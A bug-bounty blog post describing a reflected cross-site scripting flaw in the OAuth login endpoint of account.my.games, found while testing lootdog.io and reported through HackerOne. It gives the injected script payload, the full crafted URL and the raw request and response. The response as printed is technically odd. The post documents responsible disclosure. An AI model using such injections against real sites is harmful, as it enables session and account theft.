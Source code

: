 ```yaml
---
layout: post
title: "Discovery of Reflected Cross-Site Scripting (XSS) Vulnerability in a Public Program"
date: 2021-02-08 12:00
categories: blog
---
```


## Target

The target of this analysis is https://lootdog.io/, a website hosted on HackerOne's platform with a large scope. During the reconnaissance phase, an unintended behavior was identified in the Oauth request, leading to further investigation.

## Technical Analysis

The login request from https://lootdog.io/ was intercepted and analyzed using a repeater tool to observe the Oauth workflow. It was discovered that the website utilizes https://account.my.games as an Oauth service. Upon clicking the login button, users are redirected to https://account.my.games, where they can log in if they possess a valid account. To assess the security of the Oauth implementation, a search was conducted for potential vulnerabilities such as Reflected XSS or Open Redirect issues that could be exploited to obtain the Oauth token and compromise user accounts.

An additional parameter was added to the end of the request's keyed value as follows:

`&Set-Cookie: <script>alert(“Hacked By Deathstroke”)</script>`

The resulting URL was crafted as follows:

```
https://account.my.games//oauth2/login/?continue=https%3A%2F%2Faccount.my.games%2Foauth2%2F%3Fredirect_uri%3Dhttps%253A%252F%252Flootdog.io%252Fsocial%252Fcomplete%252Fo2mygames%252F%26client_id%3Dlootdog_io%26response_type%3Dcode%26signup_social%3Dmailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw%26signup_method%3Demail%252Cphone%26lang%3DEN&client_id=lootdog_io&lang=EN&signup_method=email%2Cphone&signup_social=mailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw&Set-Cookie: <script>alert("Hacked By Deathstroke")</script>
```

Subsequently, the request containing the payload was sent and the response was observed.

## Request

```http
GET /oauth2/login/?continue=https%3A%2F%2Faccount.my.games%2Foauth2%2F%3Fredirect_uri%3Dhttps%253A%252F%252Flootdog.io%252Fsocial%252Fcomplete%252Fo2mygames%252F%26client_id%3Dlootdog_io%26response_type%3Dcode%26signup_social%3Dmailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw%26signup_method%3Demail%252Cphone%26lang%3DEN&client_id=lootdog_io&lang=EN&signup_method=email%2Cphone&signup_social=mailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw&Set-Cookie: <script>alert("Hacked By Deathstroke")</script> HTTP/1.1 
Host: account.my.games 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: https://lootdog.io/ 
Connection: close
```

## Response

```http
<script>alert("Hacked By Deathstroke")</script> HTTP/1.0 200 OK 
Content-Type: text/html; charset=utf-8 
X-Frame-Options: SAMEORIGIN 
Content-Length: 3982 
Vary: Origin
```

However, no access token was found to be reflected in the response at that time. Nonetheless, the issue was reported to the program, as it had the potential to pose other security threats.

![img](/assets/images/blogs/XSS_lootdog/1.webp)

The payload can be seen successfully reflected in the HTTP response.

![img](/assets/images/blogs/XSS_lootdog/2.webp)

This marked the discovery of my first vulnerability, which was promptly reported to HackerOne. After the HackerOne analyst verified and triaged the vulnerability through discussions, the issue was ultimately resolved, and I was rewarded with a Hall of Fame (HoF) distinction.

Thank you for reading.

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
